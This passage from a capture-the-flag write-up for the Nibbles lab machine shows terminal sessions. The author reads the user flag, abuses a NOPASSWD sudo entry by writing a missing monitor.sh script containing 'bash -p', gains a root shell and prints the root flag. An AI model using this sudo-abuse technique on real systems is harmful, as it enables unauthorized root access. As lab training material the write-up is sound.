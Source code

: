 ```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat ~/user.txt
3df3ff4b6e491912073bb4ff2db25dae
```


# Root Flag
---

## From nibbler to root


### SUDO

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls -l /home/nibbler/personal/stuff/monitor.sh
ls: cannot access '/home/nibbler/personal/stuff/monitor.sh': No such file or directory
```

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ echo -e '#!/bin/bash\nbash -p'>/home/nibbler/personal/stuff/monitor.sh
bash: /home/nibbler/personal/stuff/monitor.sh: No such file or directory

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ mkdir -p /home/nibbler/personal/stuff/

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ echo -e '#!/bin/bash\nbash -p'>/home/nibbler/personal/stuff/monitor.sh

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ sudo /home/nibbler/personal/stuff/monitor.sh

root@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image# id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image# cat /root/root.txt
d828b8afecc05002d5a8489e304ac44e
```


# Additional
---
